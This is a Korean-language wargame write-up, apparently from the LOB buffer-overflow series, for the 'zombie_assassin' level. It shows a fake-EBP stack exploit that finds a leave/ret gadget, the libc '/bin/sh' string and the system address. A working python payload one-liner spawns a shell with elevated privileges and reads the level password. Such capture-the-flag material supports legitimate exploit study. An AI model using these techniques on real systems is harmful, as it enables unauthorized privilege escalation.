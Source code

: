 ```c
                printf("library retbayed you, too!!\n");
                exit(0);
        }

	// strncpy instead of strcpy!
	strncpy(buffer, argv[1], 48); 
	printf("%s\n", buffer);
}
```

Fake ebp 기법이다. 

다음과 사용할 가젯들을 촵촵촵 찾아내고,

```shell
 8048517:	c9                   	leave  
 8048518:	c3                   	ret  
 
 [assassin@localhost assassin]$ xxd /lib/libc.so.6 | grep "/bin/sh"
00e3ff0: 2030 0073 6800 2d63 002f 6269 6e2f 7368   0.sh.-c./bin/sh
00e6580: 302d 6300 7368 002f 6269 6e2f 7368 002d  0-c.sh./bin/sh.-
00e6590: 6300 7368 002f 6269 6e2f 7368 0074 6d70  c.sh./bin/sh.tmp
00e81c0: 3027 0020 090a 002f 6269 6e2f 7368 002d  0'. .../bin/sh.-
00e8770: 6269 6e2f 6373 6800 2f62 696e 2f73 6800  bin/csh./bin/sh.

(gdb) x/s 0x40018000+0xe3ff0
0x400fbff0:	 " 0"
(gdb) 
0x400fbff3:	 "sh"
(gdb) 
0x400fbff6:	 "-c"
(gdb) 
0x400fbff9:	 "/bin/sh"

(gdb) p system
$2 = {<text variable, no debug info>} 0x40058ae0 <__libc_system>
```

다음과 같이 페이로드를 구상하면

```shell
"AAAA" | &system | "BBBB" | &binsh | buffer | &leave_ret
```



읔

```shell
[assassin@localhost assassin]$ ./zombie_assassin `python -c 'print "AAAA"+"\xe0\x8a\x05\x40"+"AAAA"+"\xf9\xbf\x0f\x40"+"A"*24 + "\x70\xfa\xff\xbf" + "\x17\x85\x04\x08"'`
AAAAɀAAAA񿀁AAAAAAAAAAAAAAAAAAAAAAp󽗅 
bash$ id    
uid=515(assassin) gid=515(assassin) euid=516(zombie_assassin) egid=516(zombie_assassin) groups=515(assassin)
bash$ my-pass
euid = 516
no place to hide
```
